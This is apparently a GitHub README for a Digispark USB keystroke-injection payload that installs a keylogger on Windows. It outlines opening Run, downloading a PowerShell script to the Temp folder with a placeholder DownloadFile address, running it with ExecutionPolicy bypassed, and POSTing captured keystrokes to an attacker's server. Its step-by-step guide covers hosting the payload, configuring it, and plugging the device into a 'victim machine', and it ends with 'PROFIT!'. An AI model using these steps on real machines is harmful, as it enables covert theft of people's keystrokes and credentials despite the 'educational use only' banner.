 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Keylogger
For more details, see our [documentations](/documentation/conops_keylogger.md).

Opens up Run in Windows.   
Using keystroke injections:   
- Downloads the keylogger script, from user defined location, to `$env:Temp\`.   
- Executes the script, bypassing the ExecutionPolicy, in the backgroud.
- Script logs the keypresses to a file and after some time, specified in the script, it sends the content of the file to server as POST request

Check out more detailed usage of the [Keylogger in our project.](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/keylogger)    
**NOTE:**   
Currently we are using the [one with the POST request](https://github.com/therealhalonen/PhishSticks/blob/master/payloads/keylogger/keylog_ps/helper_post.ps1)


## How to use: 

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Grab the [keylogger script](https://github.com/therealhalonen/PhishSticks/blob/master/payloads/keylogger/keylog_ps/helper_post.ps1)3
- Edit the script, [with instructions](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/keylogger/keylog_ps#how-to-use-1)
- Host/serve the script from your preferred location
	- For example straight from attack device with simple python `python3 -m http.server PORT`
	- OR using our [simple Flask app](scripts/webhook), that is designed to be used in our testings, with the keylogger.
- Define:
	-  `DownloadFile('FULL_ADDRESS_WITH_FILENAME'`, the one you are serving the payload from.    
	- Path, where to download and what to execute (both must be the same):
		- `$env:Temp\\FILE_NAME_OF_YOUR_CHOICE.ps1`   
- Upload to Digispark
- Plug in to victim machine
- **PROFIT!**